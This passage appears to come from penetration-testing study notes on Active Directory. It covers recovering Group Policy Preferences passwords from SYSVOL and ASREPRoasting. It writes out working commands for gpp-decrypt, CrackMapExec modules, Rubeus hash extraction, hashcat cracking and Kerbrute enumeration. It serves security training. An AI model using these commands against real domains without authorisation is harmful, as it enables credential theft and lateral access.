 We can use CrackMapExec and the `--local-auth` flag to test any credentials we found.

### Group Policy Preferences (GPP) Passwords 

When a new GPP is created, as well a xml file in SYSVOL share. THese file can include:
- Map drives (drives.xml)
- Create local users
- Create printer config files (printers.xml)
- Creating and updating services (services.xml)
- Creating scheduled tasks (scheduledtasks.xml)
- Changing local admin passwords

These files can contain an array of configuration data and defined passwords. The **cpassword** attribute, encrypted as AES-256 bit, can be decrypted as:
```console
zero@pio$ gpp-decrypt <CPASSWORD>
```

This GPP passwords can be found manually or by using [Get-GPPPasswords.ps1](https://github.com/PowerShellMafia/PowerSploit/blob/master/Exfiltration/Get-GPPPassword.ps1). Password re-use is widespread, and the GPP password combined with password spraying could result in further access.
```console
zero@pio$ crackmapexec smb -L | grep gpp
```

It is also possible to find passwords in files such as Registry.xml when autologon is configured via Group Policy. We can hunt for this using CrackMapExec with the gpp\_autologin module, or using the Get-GPPAutologon.ps1 script included in PowerSploit.
```console
zero@pio$ crackmapexec smb <IP> -u <USER> -p <PASSWORD> -M gpp_autologin
```

### ASREPRoasting 

It is possible to obtain the TGT for any account with the **Do not requier Kerberos pre-authentication** enabled. ASREPRoasting is similar to Kerberoasting, but it involves attacking the AS-REP instead of the TGS-REP. An SPN is not required. We can search the users with:
```console
PS C:\zeropio> Get-DomainUser -PreauthNotRequired | select samaccountname,userprincipalname,useraccountcontrol | fl
```

If we found a user we can use Rubeus:
```console
PS C:\zeropio> .\Rubeus.exe asreproast /user:<USER> /nowrap /format:hashcat
```

And then crack with mode **18200**:
```console
zero@pio$ hashcat -m 18200 <HASH> <WORDLIST>
```

When performing user enumeration with Kerbrute, the tool will automatically retrieve the AS-REP for any users found that do not require Kerberos pre-authentication:
```console
zero@pio$ kerbrute userenum -d <DOMAIN>.local --dc <DC IP> <WORDLIST>
```
